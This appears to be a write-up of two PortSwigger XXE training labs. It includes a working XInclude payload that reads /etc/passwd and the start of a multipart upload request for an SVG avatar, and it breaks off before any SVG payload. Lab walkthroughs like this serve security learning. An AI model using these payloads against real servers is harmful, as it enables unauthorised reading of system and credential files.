 # ***[3. Lab: Exploiting XInclude to retrieve files](https://portswigger.net/web-security/xxe/lab-xinclude-attack)***

 This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.

Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack.

To solve the lab, inject an XInclude statement to retrieve the contents of the /etc/passwd file. 

**hint**: By default, XInclude will try to parse the included document as XML. Since /etc/passwd isn't valid XML, you will need to add an extra attribute to the XInclude directive to change this behavior. 

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```



# Lab solved!


# ***[4. Lab: Exploiting XXE via image file upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)***

 This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

To solve the lab, upload an image that displays the contents of the /etc/hostname file after processing. Then use the "Submit solution" button to submit the value of the server hostname. 

**hint**: The SVG image format uses XML. 

1. load avatar and send request to repeater:"
**request**:
```
POST /post/comment HTTP/1.1
Content-Type: multipart/form-data; 
boundary=---------------------------346346600632902503642525096863


-----------------------------346346600632902503642525096863
Content-Disposition: form-data; name="csrf"

dsoHHprllZwQdUYsVfNttIiI0BAcKeNY
-----------------------------346346600632902503642525096863
Content-Disposition: form-data; name="postId"

5
-----------------------------346346600632902503642525096863
Content-Disposition: form-data; name="comment"

test
-----------------------------346346600632902503642525096863
Content-Disposition: form-data; name="name"

peter
-----------------------------346346600632902503642525096863
Content-Disposition: form-data; name="avatar"; filename="SVG_Logo.svg"
Content-Type: image/svg+xml

```